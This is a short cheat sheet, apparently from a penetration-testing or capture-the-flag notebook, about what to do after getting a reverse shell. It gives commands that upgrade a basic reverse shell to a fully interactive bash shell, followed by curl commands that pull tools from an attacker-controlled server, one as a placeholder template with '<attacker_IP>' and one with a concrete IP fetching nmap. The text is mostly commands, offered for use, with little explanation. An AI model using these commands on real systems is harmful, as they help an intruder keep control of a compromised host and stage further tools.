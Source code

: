 
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm

```


Make a list of commands to download payloads from the server 

```
curl <attacker_IP>/<tool_name> -o <out_name>
```

```
curl 10.50.88.33/nmap -o nmap_sar
```